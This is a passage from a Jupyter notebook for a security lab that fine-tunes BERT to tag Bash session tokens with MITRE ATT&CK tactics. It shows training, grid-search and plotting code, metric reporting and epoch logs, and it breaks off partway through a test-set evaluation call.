    """Use the model loss unless a moderate weighted objective is requested."""
    if class_weights is None:
        return outputs.loss

    loss_function = nn.CrossEntropyLoss(
        weight=class_weights,
        ignore_index=-100,
    )
    return loss_function(
        outputs.logits.reshape(-1, outputs.logits.shape[-1]),
        labels.reshape(-1),
    )


In [35]:
# --- Plotting helper functions ---
def plot_training_stats(title, training_losses, validation_losses=None, best_epoch=None, save_path=None):
    """Plot the selected run with training and validation loss on the same scale."""
    fig, ax = plt.subplots(figsize=(8.5, 5.2))
    epochs = np.arange(1, len(training_losses) + 1)

    ax.plot(
        epochs, training_losses, label='Training loss',
        color='#2E86C1', linewidth=PLOT_LINEWIDTH
    )
    if validation_losses is not None:
        ax.plot(
            epochs, validation_losses, label='Validation loss',
            color='#E67E22', linewidth=PLOT_LINEWIDTH
        )

    if best_epoch is not None:
        selected_epoch = best_epoch + 1
        ax.axvline(
            selected_epoch, color='#C0392B', linestyle='--',
            linewidth=1.8, label=f'Selected epoch ({selected_epoch})'
        )
        if validation_losses is not None:
            ax.scatter(
                selected_epoch, validation_losses[best_epoch],
                color='#C0392B', s=65, zorder=5
            )

    ax.set_title(f'{title}: selected training run')
    ax.set_xlabel('Epoch')
    ax.set_ylabel('Cross-entropy loss')
    ax.set_xticks(np.arange(1, len(epochs) + 1, max(1, len(epochs) // 8)))
    ax.grid(True, linestyle='--', alpha=0.45)
    format_report_axes(ax, legend=True)
    plt.tight_layout()

    if save_path:
        save_plot(fig, f'{title.lower().replace(" ", "_")}_losses', path=save_path)
    plt.show()


def plot_grid_search_curves(search_history, selected_entry, title, save_path=None):
    """Compare validation loss and macro F1 for every learning-rate trial."""
    fig, axes = plt.subplots(1, 2, figsize=(13.5, 5.2))
    palette = sns.color_palette('colorblind', n_colors=len(search_history))

    for color, trial in zip(palette, search_history):
        epochs = np.arange(1, len(trial['val_losses']) + 1)
        is_selected = (
            trial['learning_rate'] == selected_entry['learning_rate']
            and trial['epochs'] == selected_entry['epochs']
            and trial.get('loss_name', 'standard')
                == selected_entry.get('loss_name', 'standard')
        )
        width = 3.0 if is_selected else 2.0
        alpha = 1.0 if is_selected else 0.78
        suffix = ' (selected)' if is_selected else ''
        head_lr = trial.get('head_learning_rate', trial['learning_rate'])
        loss_suffix = (
            ', weighted' if trial.get('loss_name') == 'sqrt-inverse' else ''
        )
        label = (
            f"base={trial['learning_rate']:.0e}, head={head_lr:.0e}"
            f"{loss_suffix}{suffix}"
        )

        axes[0].plot(
            epochs, trial['val_losses'], label=label,
            color=color, linewidth=width, alpha=alpha
        )
        axes[1].plot(
            epochs, trial['val_f1_scores'], label=label,
            color=color, linewidth=width, alpha=alpha
        )

        checkpoint = trial['best_epoch']
        axes[0].scatter(
            checkpoint + 1, trial['val_losses'][checkpoint],
            color=color, s=42, zorder=5
        )
        axes[1].scatter(
            checkpoint + 1, trial['val_f1_scores'][checkpoint],
            color=color, s=42, zorder=5
        )

    axes[0].set_title('Validation loss')
    axes[0].set_xlabel('Epoch')
    axes[0].set_ylabel('Cross-entropy loss')
    axes[1].set_title('Validation macro F1')
    axes[1].set_xlabel('Epoch')
    axes[1].set_ylabel('Macro F1')
    axes[1].set_ylim(0, 1.0)

    for ax in axes:
        ax.grid(True, linestyle='--', alpha=0.4)
        format_report_axes(ax, legend=True, legend_kwargs={'loc': 'best'})

    fig.suptitle(f'{title}: learning-rate comparison', y=1.02)
    plt.tight_layout()
    if save_path:
        filename = f'{title.lower().replace(" ", "_")}_lr_comparison'
        save_plot(fig, filename, path=save_path)
    plt.show()


def plot_per_class_f1(per_class_f1, title, save_path=None):
    """Plot per-class F1 scores as a barplot."""
    fig, ax = plt.subplots(figsize=(10, 5))

    labels = list(per_class_f1.keys())
    values = list(per_class_f1.values())

    bars = ax.bar(labels, values, color='#2E86C1', edgecolor='black', linewidth=1)

    for bar, val in zip(bars, values):
        ax.annotate(
            f'{val:.3f}', xy=(bar.get_x() + bar.get_width()/2, val),
            xytext=(0, 3), textcoords='offset points',
            ha='center', va='bottom', fontsize=PLOT_ANNOTATION_SIZE
        )

    ax.set_xlabel('MITRE Tactic', fontsize=PLOT_LABEL_SIZE)
    ax.set_ylabel('F1 Score', fontsize=PLOT_LABEL_SIZE)
    ax.set_title(f'{title} - Per-Class F1 Score', fontsize=PLOT_TITLE_SIZE)
    ax.set_ylim(0, 1.1)
    ax.grid(True, linestyle='--', alpha=0.7, axis='y')
    format_report_axes(ax)
    plt.xticks(rotation=45, ha='right', fontsize=PLOT_TICK_SIZE)
    plt.tight_layout()

    if save_path:
        save_plot(fig, f'{title.lower().replace(" ", "_")}_per_class_f1', path=save_path)
    plt.show()


def plot_confusion_matrix(full_predictions, full_labels, id2label, title, normalize=False, save_path=None):
    """Plot confusion matrix."""
    flat_predictions = list(chain(*full_predictions))
    flat_labels = list(chain(*full_labels))

    labels_list = list(id2label.values())
    cm = confusion_matrix(flat_labels, flat_predictions, labels=labels_list)

    if normalize:
        row_sums = cm.sum(axis=1, keepdims=True)
        cm = np.divide(cm, row_sums, out=np.zeros_like(cm, dtype=float), where=row_sums != 0)
        fmt = '.2f'
    else:
        fmt = 'd'

    fig, ax = plt.subplots(figsize=(10, 8))
    sns.heatmap(
        cm, annot=True, fmt=fmt, cmap='Blues',
        xticklabels=labels_list, yticklabels=labels_list, ax=ax
    )
    ax.set_ylabel('True label', fontsize=PLOT_LABEL_SIZE)
    ax.set_xlabel('Predicted label', fontsize=PLOT_LABEL_SIZE)
    ax.set_title(f'{title} - {"Normalized " if normalize else ""}Confusion Matrix', fontsize=PLOT_TITLE_SIZE)
    format_report_axes(ax)
    plt.xticks(rotation=45, ha='right', fontsize=PLOT_TICK_SIZE)
    plt.yticks(rotation=0, fontsize=PLOT_TICK_SIZE)
    plt.tight_layout()

    if save_path:
        suffix = '_normalized' if normalize else ''
        save_plot(fig, f'{title.lower().replace(" ", "_")}_confusion_matrix{suffix}', path=save_path)
    plt.show()


In [36]:
# --- Training function ---
def train_model(
    model,
    train_dataloader,
    eval_dataloader,
    optimizer,
    lr_scheduler,
    n_epochs,
    device,
    id2label,
    model_name="Model",
    class_weights=None,
):
    """Train for all epochs and retain the minimum-validation-loss model.

    This mirrors the reference workflow: every configured epoch is executed,
    while the checkpoint used for evaluation is the one with the lowest
    validation loss.
    """
    model = model.to(device)
    if class_weights is not None:
        class_weights = class_weights.to(device)

    best_val_loss = np.inf
    best_epoch = 0
    best_state = None

    train_losses = []
    val_losses = []
    val_f1_scores = []
    val_accuracies = []

    max_training_steps = n_epochs * len(train_dataloader)
    progress_bar = tqdm(
        total=max_training_steps,
        desc=f"Training {model_name}",
    )
    start_time = time.time()

    for epoch in range(n_epochs):
        model.train()
        train_loss = 0.0

        for batch in train_dataloader:
            batch = {key: value.to(device) for key, value in batch.items()}
            optimizer.zero_grad(set_to_none=True)

            outputs = model(**batch)
            loss = token_classification_loss(
                outputs,
                batch["labels"],
                class_weights=class_weights,
            )
            loss.backward()
            clip_grad_norm_(
                (
                    parameter for parameter in model.parameters()
                    if parameter.requires_grad
                ),
                max_norm=1.0,
            )
            optimizer.step()
            lr_scheduler.step()

            train_loss += loss.item()
            progress_bar.update(1)

        train_losses.append(train_loss / len(train_dataloader))

        model.eval()
        full_predictions, full_labels = [], []
        val_loss = 0.0

        for batch in eval_dataloader:
            batch = {key: value.to(device) for key, value in batch.items()}
            with torch.no_grad():
                outputs = model(**batch)
                loss = token_classification_loss(
                    outputs,
                    batch["labels"],
                    class_weights=class_weights,
                )

            val_loss += loss.item()
            predictions = outputs.logits.argmax(dim=-1)
            true_predictions, true_labels = postprocess(
                predictions, batch["labels"], id2label
            )
            full_predictions.extend(true_predictions)
            full_labels.extend(true_labels)

        val_loss /= len(eval_dataloader)
        metrics = compute_metrics(full_predictions, full_labels)
        val_f1 = metrics['token_f1']
        val_accuracy = metrics['token_accuracy']

        val_losses.append(val_loss)
        val_f1_scores.append(val_f1)
        val_accuracies.append(val_accuracy)

        print(
            f"Epoch {epoch + 1:02d}/{n_epochs} | "
            f"train_loss={train_losses[-1]:.4f} | "
            f"val_loss={val_loss:.4f} | "
            f"val_macro_f1={val_f1:.4f} | "
            f"val_accuracy={val_accuracy:.4f}"
        )

        if val_loss <= best_val_loss:
            best_epoch = epoch
            best_val_loss = val_loss
            best_state = {
                name: value.detach().cpu().clone()
                for name, value in model.state_dict().items()
            }

    progress_bar.close()
    elapsed_time = time.time() - start_time

    if best_state is None:
        raise RuntimeError(f"No checkpoint was produced for {model_name}.")
    model.load_state_dict(best_state)

    return (
        model,
        train_losses,
        val_losses,
        val_f1_scores,
        val_accuracies,
        best_epoch,
        elapsed_time,
    )


In [37]:
# --- Evaluation function ---
def evaluate_model(model, test_dataloader, device, id2label, unique_labels, model_name="Model"):
    """
    Evaluate a trained model on test data.

    Returns:
        Dictionary containing all metrics
    """
    model.eval()
    full_predictions, full_labels = [], []

    for batch in tqdm(test_dataloader, desc=f"Evaluating {model_name}"):
        batch = {key: value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels, id2label)
        full_predictions += true_predictions
        full_labels += true_labels

    # Compute metrics
    metrics = compute_metrics(full_predictions, full_labels)
    per_class_f1 = compute_per_class_f1(full_predictions, full_labels, unique_labels)
    session_fidelity = compute_session_fidelity(full_predictions, full_labels)

    print(f"\n{model_name} Test Results:")
    print("=" * 50)
    print(f"Token Accuracy:  {metrics['token_accuracy']*100:6.2f}%")
    print(f"Token Precision: {metrics['token_precision']*100:6.2f}%")
    print(f"Token Recall:    {metrics['token_recall']*100:6.2f}%")
    print(f"Token F1 (Macro): {metrics['token_f1']*100:6.2f}%")
    print(f"Session Fidelity: {session_fidelity*100:6.2f}%")

    return {
        'metrics': metrics,
        'per_class_f1': per_class_f1,
        'session_fidelity': session_fidelity,
        'predictions': full_predictions,
        'labels': full_labels
    }

In [38]:
# --- Robust lightweight grid-search utilities ---
def build_layerwise_optimizer(
    model,
    backbone_lr,
    head_lr_multiplier=1.0,
    weight_decay=0.01,
):
    """Use a larger LR for the randomly initialized classification head."""
    head_parameters = [
        parameter for parameter in model.classifier.parameters()
        if parameter.requires_grad
    ]
    head_parameter_ids = {id(parameter) for parameter in head_parameters}
    backbone_parameters = [
        parameter for parameter in model.parameters()
        if parameter.requires_grad and id(parameter) not in head_parameter_ids
    ]

    parameter_groups = []
    if backbone_parameters:
        parameter_groups.append({
            'params': backbone_parameters,
            'lr': backbone_lr,
            'weight_decay': weight_decay,
        })
    if head_parameters:
        parameter_groups.append({
            'params': head_parameters,
            'lr': backbone_lr * head_lr_multiplier,
            'weight_decay': weight_decay,
        })
    return AdamW(parameter_groups)


def validation_entry_key(entry):
    """Primary selection: macro F1; secondary: accuracy; tertiary: loss."""
    return (
        entry['val_macro_f1'],
        entry['val_accuracy'],
        -entry['val_loss'],
    )


def run_lightweight_grid_search(
    model_builder,
    train_dataloader,
    eval_dataloader,
    learning_rates,
    epoch_candidates,
    device,
    id2label,
    unique_labels,
    model_name="Model",
    trainable_only=False,
    max_trials=None,
    head_lr_multiplier=1.0,
    warmup_ratio=0.1,
    class_weights=None,
    loss_name='standard',
):
    """
    Search hyperparameters using validation data only.

    Each trial restores the checkpoint with minimum validation loss. Trials and
    model families are compared using validation macro F1, with accuracy and
    validation loss used only as tie breakers.
    """
    search_rows = []
    best_entry = None
    trial_count = 0

    for lr in learning_rates:
        for n_epochs in epoch_candidates:
            if max_trials is not None and trial_count >= max_trials:
                break

            trial_count += 1
            set_reproducible_seed(SEED)
            head_lr = lr * head_lr_multiplier
            trial_name = (
                f"{model_name} | base_lr={lr:.0e} | "
                f"head_lr={head_lr:.0e} | loss={loss_name}"
            )
            print(f"\n--- Grid Trial {trial_count}: {trial_name} ---")

            model = model_builder()
            optimizer = build_layerwise_optimizer(
                model,
                backbone_lr=lr,
                head_lr_multiplier=head_lr_multiplier,
                weight_decay=0.01,
            )
            max_training_steps = n_epochs * len(train_dataloader)
            warmup_steps = int(round(warmup_ratio * max_training_steps))
            lr_scheduler = get_scheduler(
                "linear",
                optimizer=optimizer,
                num_warmup_steps=warmup_steps,
                num_training_steps=max_training_steps,
            )

            (
                trained_model,
                train_losses,
                val_losses,
                val_f1_scores,
                val_accuracies,
                best_epoch,
                train_time,
            ) = train_model(
                model=model,
                train_dataloader=train_dataloader,
                eval_dataloader=eval_dataloader,
                optimizer=optimizer,
                lr_scheduler=lr_scheduler,
                n_epochs=n_epochs,
                device=device,
                id2label=id2label,
                model_name=trial_name,
                class_weights=class_weights,
            )

            row = {
                "model": model_name,
                "learning_rate": lr,
                "head_learning_rate": head_lr,
                "epochs": n_epochs,
                "epochs_ran": len(train_losses),
                "best_epoch": best_epoch,
                "val_macro_f1": float(val_f1_scores[best_epoch]),
                "val_accuracy": float(val_accuracies[best_epoch]),
                "val_loss": float(val_losses[best_epoch]),
                "train_time": train_time,
                "train_losses": train_losses,
                "val_losses": val_losses,
                "val_f1_scores": val_f1_scores,
                "val_accuracies": val_accuracies,
                "loss_name": loss_name,
                "class_weights": class_weights,
            }
            search_rows.append(row)

            if best_entry is None or validation_entry_key(row) > validation_entry_key(best_entry):
                if best_entry is not None:
                    best_entry["best_model"].to("cpu")
                best_entry = {**row, "best_model": trained_model}
            else:
                trained_model.to("cpu")

            if torch.cuda.is_available():
                torch.cuda.empty_cache()

        if max_trials is not None and trial_count >= max_trials:
            break

    search_df = pd.DataFrame([
        {
            "base_learning_rate": row["learning_rate"],
            "head_learning_rate": row["head_learning_rate"],
            "loss": row["loss_name"],
            "max_epochs": row["epochs"],
            "epochs_ran": row["epochs_ran"],
            "best_epoch": row["best_epoch"] + 1,
            "val_macro_f1": row["val_macro_f1"],
            "val_accuracy": row["val_accuracy"],
            "val_loss": row["val_loss"],
            "train_time_s": row["train_time"],
        }
        for row in search_rows
    ]).sort_values(
        ["val_macro_f1", "val_accuracy", "val_loss"],
        ascending=[False, False, True],
    ).reset_index(drop=True)

    print(f"\n{model_name} grid-search summary (sorted):")
    print(search_df.to_string(index=False))
    print(
        f"\nSelected config for {model_name}: "
        f"base_lr={best_entry['learning_rate']:.0e}, "
        f"head_lr={best_entry['head_learning_rate']:.0e}, "
        f"loss={best_entry['loss_name']}, "
        f"checkpoint_epoch={best_entry['best_epoch'] + 1}, "
        f"epochs_ran={best_entry['epochs_ran']}, "
        f"val_macro_f1={best_entry['val_macro_f1']:.4f}, "
        f"val_loss={best_entry['val_loss']:.4f}"
    )

    return best_entry, search_df, search_rows


### 3.1 BERT Fine-tuning (Pre-trained)

**Instructions:**
- Load `bert-base-uncased` with pre-trained weights.
- Fine-tune for token classification (NER).
- Report metrics: Token accuracy, macro precision/recall/F1, per-class F1 barplot, and Session Fidelity.

**Q:** Can the model achieve good results with only ~251 training samples?

The pre-trained BERT model reaches **84.76% token accuracy**, **61.97% macro F1**, and **79.97% session fidelity** on the test set. This is a reasonable result considering that only **251 labeled sessions** are available and the label distribution is highly imbalanced. However, the macro F1 is much lower than the accuracy, which means that BERT performs well on frequent classes but struggles more on minority tactics. The model can therefore learn useful structure from few samples, but the per-class behavior remains uneven.


In [39]:
# --- Prepare BERT tokenizer and data ---
bert_tokenizer = AutoTokenizer.from_pretrained(
    BERT_MODEL,
    use_fast=True,
    model_max_length=512,
)

# Figure 1 of the brief expands each Bash-word tag to all generated tokens.
tokenize_bert = create_tokenize_and_align_function(
    bert_tokenizer, label_all_tokens=True
)

original_columns = encoded_dataset["train"].column_names
bert_tokenized_datasets = encoded_dataset.map(
    tokenize_bert,
    batched=True,
    remove_columns=original_columns,
)

print("BERT Tokenized Dataset:")
print(bert_tokenized_datasets)


Map:   0%|          | 0/202 [00:00<?, ? examples/s]

Map:   0%|          | 0/49 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

BERT Tokenized Dataset:
DatasetDict({
    train: Dataset({
        features: ['input_ids', 'token_type_ids', 'attention_mask', 'labels'],
        num_rows: 202
    })
    valid: Dataset({
        features: ['input_ids', 'token_type_ids', 'attention_mask', 'labels'],
        num_rows: 49
    })
    test: Dataset({
        features: ['input_ids', 'token_type_ids', 'attention_mask', 'labels'],
        num_rows: 108
    })
})


In [40]:
# --- Create DataLoaders for BERT ---
bert_data_collator = DataCollatorForTokenClassification(tokenizer=bert_tokenizer)

BATCH_SIZE = 16

bert_train_dataloader = DataLoader(
    bert_tokenized_datasets["train"],
    shuffle=True,
    collate_fn=bert_data_collator,
    batch_size=BATCH_SIZE,
)
bert_eval_dataloader = DataLoader(
    bert_tokenized_datasets["valid"],
    collate_fn=bert_data_collator,
    batch_size=BATCH_SIZE,
)
bert_test_dataloader = DataLoader(
    bert_tokenized_datasets["test"],
    collate_fn=bert_data_collator,
    batch_size=BATCH_SIZE,
)

print(f"Training batches: {len(bert_train_dataloader)}")
print(f"Validation batches: {len(bert_eval_dataloader)}")
print(f"Test batches: {len(bert_test_dataloader)}")

Training batches: 13
Validation batches: 4
Test batches: 7


In [41]:
# --- Load pre-trained BERT model ---
bert_pretrained_model = AutoModelForTokenClassification.from_pretrained(
    BERT_MODEL,
    id2label=id2label,
    label2id=label2id,
)

# Count parameters
total_params = sum(p.numel() for p in bert_pretrained_model.parameters())
trainable_params = sum(p.numel() for p in bert_pretrained_model.parameters() if p.requires_grad)
print(f"BERT Pre-trained Model:")
print(f"  Total parameters: {total_params:,}")
print(f"  Trainable parameters: {trainable_params:,}")

model.safetensors:   0%|          | 0.00/440M [00:00<?, ?B/s]

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] BertForTokenClassification LOAD REPORT from: bert-base-uncased
Key                                        | Status     | 
-------------------------------------------+------------+-
cls.seq_relationship.bias                  | UNEXPECTED | 
cls.predictions.transform.dense.weight     | UNEXPECTED | 
cls.predictions.transform.LayerNorm.weight | UNEXPECTED | 
bert.pooler.dense.bias                     | UNEXPECTED | 
cls.seq_relationship.weight                | UNEXPECTED | 
cls.predictions.bias                       | UNEXPECTED | 
bert.pooler.dense.weight                   | UNEXPECTED | 
cls.predictions.transform.LayerNorm.bias   | UNEXPECTED | 
cls.predictions.transform.dense.bias       | UNEXPECTED | 
classifier.bias                            | MISSING    | 
classifier.weight                          | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly

BERT Pre-trained Model:
  Total parameters: 108,897,031
  Trainable parameters: 108,897,031


In [42]:
# --- Macro-F1-aware lightweight grid search setup for BERT ---
BERT_GRID_SEARCH = {
    'learning_rates': [5e-6, 1e-5, 2e-5],
    'epochs': [40],
    'max_trials': 3,
}

def build_bert_pretrained_model():
    return AutoModelForTokenClassification.from_pretrained(
        BERT_MODEL,
        id2label=id2label,
        label2id=label2id,
    )

print("BERT grid search space:")
print(BERT_GRID_SEARCH)


BERT grid search space:
{'learning_rates': [5e-06, 1e-05, 2e-05], 'epochs': [40], 'max_trials': 3}


In [43]:
# --- Train BERT model with macro-F1-aware selection ---
_t0 = time.time()
bert_best_entry, bert_grid_df, bert_grid_history = run_lightweight_grid_search(
    model_builder=build_bert_pretrained_model,
    train_dataloader=bert_train_dataloader,
    eval_dataloader=bert_eval_dataloader,
    learning_rates=BERT_GRID_SEARCH['learning_rates'],
    epoch_candidates=BERT_GRID_SEARCH['epochs'],
    device=device,
    id2label=id2label,
    unique_labels=unique_labels,
    model_name="BERT Pretrained",
    trainable_only=False,
    max_trials=BERT_GRID_SEARCH['max_trials'],
    head_lr_multiplier=5.0,
    warmup_ratio=0.1,
)
bert_grid_search_time = time.time() - _t0

bert_best_model = bert_best_entry['best_model']
bert_train_losses = bert_best_entry['train_losses']
bert_val_losses = bert_best_entry['val_losses']
bert_val_f1_scores = bert_best_entry['val_f1_scores']
bert_best_epoch = bert_best_entry['best_epoch']
bert_train_time = bert_best_entry['train_time']
BERT_LR = bert_best_entry['learning_rate']
BERT_EPOCHS = bert_best_entry['epochs']

bert_grid_results_path = os.path.join(results_path, 'bert_grid_search_results.csv')
bert_grid_df.to_csv(bert_grid_results_path, index=False)
print(f"Saved BERT grid search table: {bert_grid_results_path}")
print(
    f"\nSelected BERT config -> lr={BERT_LR:.0e}, epochs={BERT_EPOCHS}, "
    f"checkpoint_epoch={bert_best_epoch + 1}"
)
print(f"Selected-run training time: {bert_train_time:.1f}s")
print(f"Total BERT grid-search time: {bert_grid_search_time:.1f}s")



--- Grid Trial 1: BERT Pretrained | base_lr=5e-06 | head_lr=3e-05 | loss=standard ---


Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] BertForTokenClassification LOAD REPORT from: bert-base-uncased
Key                                        | Status     | 
-------------------------------------------+------------+-
cls.seq_relationship.bias                  | UNEXPECTED | 
cls.predictions.transform.dense.weight     | UNEXPECTED | 
cls.predictions.transform.LayerNorm.weight | UNEXPECTED | 
bert.pooler.dense.bias                     | UNEXPECTED | 
cls.seq_relationship.weight                | UNEXPECTED | 
cls.predictions.bias                       | UNEXPECTED | 
bert.pooler.dense.weight                   | UNEXPECTED | 
cls.predictions.transform.LayerNorm.bias   | UNEXPECTED | 
cls.predictions.transform.dense.bias       | UNEXPECTED | 
classifier.bias                            | MISSING    | 
classifier.weight                          | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly

Training BERT Pretrained | base_lr=5e-06 | head_lr=3e-05 | loss=standard:   0%|          | 0/520 [00:00<?, ?it…

Epoch 01/40 | train_loss=2.0490 | val_loss=1.9609 | val_macro_f1=0.0899 | val_accuracy=0.1549
Epoch 02/40 | train_loss=1.8709 | val_loss=1.6949 | val_macro_f1=0.1469 | val_accuracy=0.3966
Epoch 03/40 | train_loss=1.5624 | val_loss=1.3395 | val_macro_f1=0.1693 | val_accuracy=0.5591
Epoch 04/40 | train_loss=1.2621 | val_loss=1.0349 | val_macro_f1=0.2051 | val_accuracy=0.6432
Epoch 05/40 | train_loss=1.0731 | val_loss=0.8431 | val_macro_f1=0.2780 | val_accuracy=0.6800
Epoch 06/40 | train_loss=0.9115 | val_loss=0.7459 | val_macro_f1=0.3127 | val_accuracy=0.7142
Epoch 07/40 | train_loss=0.7673 | val_loss=0.6688 | val_macro_f1=0.3256 | val_accuracy=0.7355
Epoch 08/40 | train_loss=0.7002 | val_loss=0.6102 | val_macro_f1=0.3358 | val_accuracy=0.7575
Epoch 09/40 | train_loss=0.6182 | val_loss=0.5350 | val_macro_f1=0.3483 | val_accuracy=0.7835
Epoch 10/40 | train_loss=0.5496 | val_loss=0.5230 | val_macro_f1=0.3504 | val_accuracy=0.7790
Epoch 11/40 | train_loss=0.4922 | val_loss=0.4860 | val_macr

...

Epoch 01/40 | train_loss=2.0207 | val_loss=1.8693 | val_macro_f1=0.1136 | val_accuracy=0.2369
Epoch 02/40 | train_loss=1.7094 | val_loss=1.4227 | val_macro_f1=0.1630 | val_accuracy=0.5372
Epoch 03/40 | train_loss=1.2914 | val_loss=1.0028 | val_macro_f1=0.2062 | val_accuracy=0.6437
Epoch 04/40 | train_loss=0.9987 | val_loss=0.7984 | val_macro_f1=0.3074 | val_accuracy=0.7129
Epoch 05/40 | train_loss=0.8054 | val_loss=0.6532 | val_macro_f1=0.3284 | val_accuracy=0.7392
Epoch 06/40 | train_loss=0.6748 | val_loss=0.5864 | val_macro_f1=0.3526 | val_accuracy=0.7749
Epoch 07/40 | train_loss=0.5226 | val_loss=0.4770 | val_macro_f1=0.3743 | val_accuracy=0.8076
Epoch 08/40 | train_loss=0.4427 | val_loss=0.3963 | val_macro_f1=0.4323 | val_accuracy=0.8557
Epoch 09/40 | train_loss=0.3827 | val_loss=0.3801 | val_macro_f1=0.5277 | val_accuracy=0.8666
Epoch 10/40 | train_loss=0.3033 | val_loss=0.4147 | val_macro_f1=0.5469 | val_accuracy=0.8430
Epoch 11/40 | train_loss=0.2593 | val_loss=0.3563 | val_macr

Loading weights:   0%|          | 0/197 [00:00<?, ?it/s]

[transformers] BertForTokenClassification LOAD REPORT from: bert-base-uncased
Key                                        | Status     | 
-------------------------------------------+------------+-
cls.seq_relationship.bias                  | UNEXPECTED | 
cls.predictions.transform.dense.weight     | UNEXPECTED | 
cls.predictions.transform.LayerNorm.weight | UNEXPECTED | 
bert.pooler.dense.bias                     | UNEXPECTED | 
cls.seq_relationship.weight                | UNEXPECTED | 
cls.predictions.bias                       | UNEXPECTED | 
bert.pooler.dense.weight                   | UNEXPECTED | 
cls.predictions.transform.LayerNorm.bias   | UNEXPECTED | 
cls.predictions.transform.dense.bias       | UNEXPECTED | 
classifier.bias                            | MISSING    | 
classifier.weight                          | MISSING    | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.
- MISSING:	those params were newly

Training BERT Pretrained | base_lr=2e-05 | head_lr=1e-04 | loss=standard:   0%|          | 0/520 [00:00<?, ?it…

Epoch 01/40 | train_loss=1.9675 | val_loss=1.7065 | val_macro_f1=0.1460 | val_accuracy=0.3940
Epoch 02/40 | train_loss=1.4874 | val_loss=1.1081 | val_macro_f1=0.1928 | val_accuracy=0.6154
Epoch 03/40 | train_loss=1.0908 | val_loss=0.8039 | val_macro_f1=0.3010 | val_accuracy=0.7053
Epoch 04/40 | train_loss=0.8054 | val_loss=0.6527 | val_macro_f1=0.3340 | val_accuracy=0.7442
Epoch 05/40 | train_loss=0.6192 | val_loss=0.5228 | val_macro_f1=0.3811 | val_accuracy=0.8009
Epoch 06/40 | train_loss=0.4733 | val_loss=0.3808 | val_macro_f1=0.5218 | val_accuracy=0.8548
Epoch 07/40 | train_loss=0.3202 | val_loss=0.3665 | val_macro_f1=0.5521 | val_accuracy=0.8569
Epoch 08/40 | train_loss=0.2288 | val_loss=0.3292 | val_macro_f1=0.6128 | val_accuracy=0.8776
Epoch 09/40 | train_loss=0.1859 | val_loss=0.3177 | val_macro_f1=0.6595 | val_accuracy=0.8859
Epoch 10/40 | train_loss=0.1339 | val_loss=0.3678 | val_macro_f1=0.7017 | val_accuracy=0.8773
Epoch 11/40 | train_loss=0.1038 | val_loss=0.2935 | val_macr

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_lr_comparison.png




Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/bert_pretrained_losses.png




In [44]:
# --- Plot BERT validation behavior across learning rates ---
plot_grid_search_curves(
    bert_grid_history,
    bert_best_entry,
    "BERT Pretrained",
    save_path=save_dir,
)
plot_training_stats(
    "BERT Pretrained",
    bert_train_losses,
    bert_val_losses,
    bert_best_epoch,
    save_path=save_dir,
)


In [45]:
# --- Evaluate BERT model on test set ---
bert_results = evaluate_model(
    model=bert_best_model,
